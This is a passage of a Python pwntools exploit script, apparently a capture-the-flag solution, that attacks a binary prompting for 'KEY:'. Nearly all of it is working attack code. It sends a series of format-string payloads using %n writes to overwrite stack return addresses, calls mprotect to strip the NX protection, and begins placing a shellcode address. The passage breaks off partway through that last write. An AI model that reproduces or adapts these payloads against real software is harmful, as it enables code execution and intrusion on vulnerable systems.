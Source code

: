 ``` python
#addr_start = 0x08048490

print 'reNX_addr:',hex(rmNX_addr)

#check if rmNX_addr is able to write
if (rmNX_addr&0xFFFF) == 0:
    print "[Error] rmNX's addr isn't write this time.\n[>_<] Try again..."
    exit(0)

print "Moe::> write mprotect addr..."
payload = p32(stack_ret+0x0) + '%x%33000x%813x%n'
p.recvuntil('KEY:')
p.sendline(payload)
payload = p32(stack_ret+0x2) + '%x%2000x%41x%n'
p.recvuntil('KEY:')
p.sendline(payload)

print "Moe::> write start addr for again"
payload = p32(stack_ret+0x4+0x0) + '%x%33000x%925x%n'
p.recvuntil('KEY:')
p.sendline(payload)
payload = p32(stack_ret+0x4+0x2) + '%x%2000x%41x%n'
p.recvuntil('KEY:')
p.sendline(payload)

print "Moe::> write func's argument..."
#write stack's addr
payload = p32(stack_ret+0x8+0x0) + '%x%x' + '%' + str((rmNX_addr&0xFFFF)-19) + 'x%n'
p.recvuntil('KEY:')
p.sendline(payload)
payload = p32(stack_ret+0x8+0x2) + '%x%x' + '%' + str((rmNX_addr>>16)-19) + 'x%n'
p.recvuntil('KEY:')
p.sendline(payload)
#write size
payload = p32(stack_ret+0xc+0x0) + '%4076x%x%x%n'
p.recvuntil('KEY:')
p.sendline(payload)
#write flag
payload = p32(stack_ret+0x10+0x2) + '%x%x%x%n'
p.recvuntil('KEY:')
p.sendline(payload)
payload = p32(stack_ret+0x10-0x1) + '%1772x%x%x%n'
p.recvuntil('KEY:')
p.sendline(payload)

print "Moe::> exec func..."
p.recvuntil('KEY:')
p.send(str_enter)
p.recvuntil('okey,you entered it.')
p.recvuntil('KEY:')
p.send("AAAABBBB\n")

print "Moe> rmNX success."
print "Moe> write shellcode..."
#new stack offset -0xa0
stack_offset = -0xa0
stack_ret = stack_ret + stack_offset
stack_buff = stack_esp + stack_offset + 16 + 0x20
print 'new_ret:',hex(stack_ret)
print 'addr_buff:',hex(stack_buff-0x20)
#write shellcode's addr
payload = p32(stack_ret+0x0) + '%x%x' + '%' + str((stack_buff&0xFFFF)-19) + 'x%n'
p.recvuntil('KEY:')
```